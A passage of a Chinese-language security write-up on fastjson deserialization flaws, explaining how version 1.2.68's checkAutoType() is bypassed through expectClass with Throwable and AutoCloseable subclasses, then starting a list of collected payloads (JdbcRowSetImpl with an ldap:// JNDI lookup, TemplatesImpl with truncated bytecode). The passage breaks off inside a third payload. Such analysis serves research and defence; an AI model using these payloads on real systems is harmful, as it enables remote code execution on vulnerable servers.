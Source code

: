 ## 8. fastjson-1.2.68

在 1.2.47 版本漏洞爆发之后，官方在 1.2.48 对漏洞进行了修复，在 `MiscCodec` 处理 Class 类的地方，设置了cache 为 false ，并且 `loadClass` 重载方法的默认的调用改为不缓存，这就避免了使用了 Class 提前将恶意类名缓存进去。

这个安全修复为 fastjson 带来了一定时间的平静，直到 1.2.68 版本出现了新的漏洞利用方式。

> 影响版本：`fastjson <= 1.2.68`
> 描述：利用 expectClass 绕过 `checkAutoType()` ，实际上也是为了绕过安全检查的思路的延伸。主要使用 `Throwable` 和 `AutoCloseable` 进行绕过。

版本 1.2.68 本身更新了一个新的安全控制点 safeMode，如果应用程序开启了 safeMode，将在 `checkAutoType()` 中直接抛出异常，也就是完全禁止 autoType，不得不说，这是一个一劳永逸的修复方式。

![](https://su18.org/post-images/1616569998850.png)

但与此同时，这个版本报出了一个新的 autoType 开关绕过方式：利用 expectClass 绕过  `checkAutoType()`。

在 `checkAutoType()` 函数中有这样的逻辑：如果函数有 `expectClass` 入参，且我们传入的类名是 `expectClass` 的子类或实现，并且不在黑名单中，就可以通过 `checkAutoType()` 的安全检测。

![](https://su18.org/post-images/1616575145371.png)

接下来我们找一下 `checkAutoType()` 几个重载方法是否有可控的 `expectClass` 的入参方式，最终找到了以下几个类：
- `ThrowableDeserializer#deserialze()`
- `JavaBeanDeserializer#deserialze()`

`ThrowableDeserializer#deserialze()` 方法直接将 `@type` 后的类传入 `checkAutoType()` ，并且 expectClass 为 `Throwable.class`。

![](https://su18.org/post-images/1616590581075.png)

通过 `checkAutoType()` 之后，将使用 `createException` 来创建异常类的实例。

![](https://su18.org/post-images/1616591945228.png)

这就形成了 `Throwable` 子类绕过 `checkAutoType()` 的方式。我们需要找到 `Throwable` 的子类，这个类的 getter/setter/static block/constructor 中含有具有威胁的代码逻辑。

与 `Throwable` 类似地，还有 `AutoCloseable` ，之所以使用 `AutoCloseable` 以及其子类可以绕过 `checkAutoType()` ，是因为 `AutoCloseable` 是属于 fastjson 内置的白名单中，其余的调用链一致，流程不再赘述。


# 四、payload

以下为部分在各个途径搜集的 payload，版本自测：

JdbcRowSetImpl
```json
{
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "ldap://127.0.0.1:23457/Command8",
    "autoCommit": true
}
```
TemplatesImpl
```json
{
	"@type": "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl",
	"_bytecodes": ["yv66vgA...k="],
	'_name': 'su18',
	'_tfactory': {},
	"_outputProperties": {},
}
```
JndiDataSourceFactory
```json
{
```